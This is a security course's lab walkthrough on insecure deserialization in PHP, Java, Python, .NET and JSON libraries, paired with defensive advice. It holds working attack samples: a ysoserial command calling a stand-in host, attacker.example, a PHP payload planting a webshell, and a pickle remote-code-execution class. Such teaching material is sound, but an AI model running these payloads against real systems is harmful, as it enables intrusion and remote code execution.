

# Week 11: Attack walkthrough - Insecure Deserialization

> ⚠️ **Lab only.** Generated gadget chains are real RCE primitives.

---

## The mental model

Serialization turns an object (with fields, methods, references) into bytes that can be sent over the wire or stored. Deserialization reverses it. Some serialization formats embed *behavior* - class names, magic methods that run during reconstruction, references to functions.

When the app **deserializes attacker-controlled bytes**, the attacker effectively runs code as the app:



The defense is simple in concept: **don't deserialize untrusted data with formats that carry behavior.** Use data-only formats (JSON, Protobuf) for untrusted input.

## Step 0: Identify the format

Recognize these on the wire:

| Format | Starts with | Where |
|---|---|---|
| Java serialized object | `aced 0005` (binary), or `rO0AB` (base64) | Anywhere Java accepts bytes |
| Python pickle | `\x80\x04` (modern), `c__` (classic) | Anywhere Python accepts bytes |
| PHP serialized | `O:8:"ClassName":...` | PHP session data, cookies |
| .NET binary | `0001 0000 ffff ffff` | WCF, ASP.NET ViewState |
| Ruby Marshal | `\x04\x08` | Rails session cookies (older) |

You'll see them in cookies, JSON body fields named `state` or `session`, hidden form fields, file uploads, message-queue payloads.

## Part 1: PHP object injection

### Step 1: Recognize PHP serialization

PHP's `serialize()` produces a readable text format:

```
O:4:"User":3:{s:5:"email";s:11:"alice@a.com";s:5:"admin";b:0;s:3:"age";i:30;}
```

`O:4:"User":3` means "object of class `User` with 3 properties." Then each property: `s` = string, `b` = boolean, `i` = integer.

Find this in cookies, hidden form fields, or wherever the app exposes session state.

### Step 2: Tamper with property values

The simplest attack - just modify the values:

```
O:4:"User":3:{s:5:"email";s:11:"alice@a.com";s:5:"admin";b:1;s:3:"age";i:30;}
                                                    ^^^ flipped from 0 to 1
```

If the app deserializes and trusts the `admin` field, you're admin. PortSwigger's "Modifying serialized objects" lab.

### Step 3: HMAC bypass

A defender adds an HMAC over the serialized blob to prevent tampering. Bypasses:

- The HMAC key is hardcoded or leaked
- The signature scheme is naively wrong (HMAC over only part of the data)
- The HMAC algorithm is broken (`hash_hmac('md5', ...)` with weak key)

### Step 4: Object injection via class confusion

The deeper attack. PHP's `unserialize` instantiates an object of *whatever class is named in the input*. If that class has dangerous magic methods (`__wakeup`, `__destruct`), they fire automatically:

```php
class Logger {
    public $log_path;
    public function __destruct() {
        if ($this->log_path) {
            file_put_contents($this->log_path, $this->message);   // attacker controls!
        }
    }
}

// Vulnerable code somewhere:
$state = unserialize($_COOKIE['state']);
```

Attacker sends:

```
O:6:"Logger":1:{s:8:"log_path";s:24:"/var/www/shell.php";...}
```

When the request ends and PHP garbage-collects the object, `__destruct` runs, writing the attacker's content to `/var/www/shell.php`. Webshell installed.

PortSwigger's "Arbitrary object injection in PHP" lab.

### Step 5: PHAR deserialization

A subtler PHP attack: PHAR (PHP Archive) files contain serialized metadata. Many PHP filesystem functions (`file_exists`, `getimagesize`, `imagecreatefrom*`) deserialize the metadata when invoked on a `phar://` URL:

```
file_exists('phar:///uploads/malicious.phar/file');
```

The deserialization triggers; magic methods run.

The bug class: any unrelated filesystem function call on attacker-controllable paths can be a deserialization sink. Sometimes catastrophic.

## Part 2: Java deserialization

### Step 1: Recognize Java serialized objects

In HTTP traffic:

- Base64 strings starting with `rO0AB` (the start of every Java serialized stream is `\xac\xed\x00\x05`, which base64-encodes as `rO0AB...`)
- Binary blobs starting with `\xac\xed\x00\x05`
- Cookie values, hidden form fields, RMI/JMX endpoints, JMS queues

### Step 2: The Apache Commons Collections chain

ysoserial's `CommonsCollections5` (and a dozen others) abuse a specific Apache Commons Collections feature: `InvokerTransformer.transform()` calls *any method* via reflection. Chained through other library classes, you get RCE without the target app explicitly calling anything dangerous - just *deserializing* triggers the chain.

```bash
# Generate the payload
java -jar ysoserial-all.jar CommonsCollections5 'curl http://attacker.example/x' > payload.bin

# Submit it
curl -X POST --data-binary @payload.bin http://target/api/import
```

The vulnerable app deserializes the bytes. Reconstruction runs the gadget chain. `Runtime.exec("curl http://attacker.example/x")` fires.

### Step 3: Why this works without the app's cooperation

The chain works because:

1. Java's `ObjectInputStream.readObject()` reconstructs any serializable class, calling its `readObject()`/`readResolve()` methods.
2. Several common library classes have `readObject` methods that do useful things (calling functions on injected sub-objects, etc.).
3. Chained together, those "useful things" let an attacker call `Runtime.exec`.

The app *itself* is fine. It just imports Apache Commons Collections in its classpath. The vulnerable class is in the dependency, not the app.

### Step 4: Picking a chain

ysoserial includes ~30 chains. Each works against specific dependency versions:

| Chain | Vulnerable library |
|---|---|
| `CommonsCollections1` through `6` | Apache Commons Collections 3.x / 4.0 |
| `Spring1`, `Spring2` | Spring AOP 2.x / 3.x |
| `Hibernate1`, `Hibernate2` | Hibernate 3.x / 4.x |
| `Groovy1` | Groovy 1.7.x |
| `Jdk7u21` | JDK 7u21 (specifically) |

For a target, look at the dependencies. The one that's loaded determines which chain works.

### Step 5: Constructing without ysoserial - when no chain works

If your dependency mix is unusual, you might write your own gadget. The pattern:

1. Find a class with `readObject` or similar that does *something* with a field.
2. Make that field point to another class that does *something else*.
3. Chain until you reach a call to `Runtime.exec` or equivalent.

Out of scope for a hands-on intro week, but read the [ysoserial chain docs](https://github.com/frohoff/ysoserial/tree/master/src/main/java/ysoserial/payloads) for the pattern.

## Part 3: Python pickle

### Step 1: Recognize pickle data

```
\x80\x04\x95\x18\x00\x00...
```

The `\x80\x04` is pickle protocol 4. Older versions start with different bytes.

### Step 2: The 5-line RCE

```python
import pickle, os

class Evil:
    def __reduce__(self):
        return (os.system, ('id',))

payload = pickle.dumps(Evil())
```

`__reduce__` tells pickle "to reconstruct me, call `os.system('id')`." Pickle does exactly that on the receiving end. RCE.

It's so simple that for years the official Python docs have warned: **never unpickle data from an untrusted source.**

### Step 3: Common pickle sinks

- `pickle.loads(request.data)`
- Celery message brokers (older versions defaulted to pickle for serialization)
- `joblib` model files (`.pkl`)
- Any cache backend storing complex objects
- IPython / Jupyter notebook checkpoints

### Step 4: Alternatives to look for in code review

Pickle isn't the only Python deserializer:

| Library | Attack |
|---|---|
| `pickle.loads` | RCE via `__reduce__` |
| `cPickle.loads` | Same |
| `marshal.loads` | Crash-prone; can have RCE on crafted bytecode |
| `shelve.open` | Uses pickle internally |
| `dill.loads` | Pickle superset, same attacks |
| PyYAML's `yaml.load` (old default) | RCE via `!!python/object/...` |
| `numpy.load(..., allow_pickle=True)` | RCE |

Grep for all of these. Each can be the bug.

## Part 4: .NET (briefly)

### BinaryFormatter - deprecated for a reason

Microsoft has explicitly deprecated `BinaryFormatter`:

> BinaryFormatter is dangerous and not recommended for processing untrusted input.

Despite that, it's still in many enterprise apps:

```csharp
// Vulnerable
var fmt = new BinaryFormatter();
var obj = fmt.Deserialize(stream);
```

Tools like **ysoserial.net** generate .NET gadget chains the same way ysoserial does for Java. Many gadgets work against vanilla .NET; some require specific NuGet packages.

### Modern .NET alternatives

- `System.Text.Json` - safe data format
- `Newtonsoft.Json` with `TypeNameHandling.None` - safe; **`TypeNameHandling.All` or `Auto` is unsafe** (allows class injection in JSON)
- Protobuf - safe data format

## Part 5: JSON deserialization - when it's NOT safe

JSON itself is a data format - no executable behavior. But several JSON libraries have "polymorphic" modes that embed class information:

```json
{
  "$type": "System.IO.FileInfo, mscorlib",
  "fileName": "/etc/passwd"
}
```

If the deserializer respects the `$type` field and constructs that class, you have a deserialization vulnerability via JSON.

Vulnerable patterns:

| Library | Unsafe setting |
|---|---|
| Jackson (Java) | `enableDefaultTyping()` |
| Newtonsoft.Json (.NET) | `TypeNameHandling.All`, `TypeNameHandling.Auto` |
| FastJSON (Java) | `parseObject(json, Object.class)` (autoType) |

The fix is to disable polymorphic typing or use an explicit allow-list of expected types.

## Common mistakes when learning

- **Forgetting to look at the file extension.** A `.pkl` upload is a serialization sink even if you can't see the API.
- **Assuming the app needs to "use" the deserialized object.** Just calling deserialize is enough; the magic methods do the rest.
- **Trying random gadgets.** The chain depends on the target's classpath. Profile the dependencies first.
- **Stopping at the format identification.** The exploit is the gadget chain, not the format recognition.
- **Treating JSON as inherently safe.** It is - *unless* the library does polymorphic typing.

Now read [defense.md](defense.md).
